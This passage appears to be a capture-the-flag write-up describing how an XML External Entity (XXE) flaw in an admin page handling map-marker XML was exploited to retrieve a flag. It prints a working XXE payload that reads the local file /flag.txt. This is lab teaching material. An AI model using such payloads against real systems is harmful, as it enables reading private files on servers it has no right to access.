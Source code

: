 <img src="imgs/admin.png" alt="image" width="50%"/>

Here, we exploit an [XXE vulnerability](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files). By sending the following payload:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<markers>
    <marker>
        <lat>47.0748663672</lat>
        <lon>12.695247219</lon>
        <name>&xxe;</name>
    </marker>
</markers>
```

we successfully retrieve the sought-after flag!

<img src="imgs/flag.png" alt="image" width="50%"/>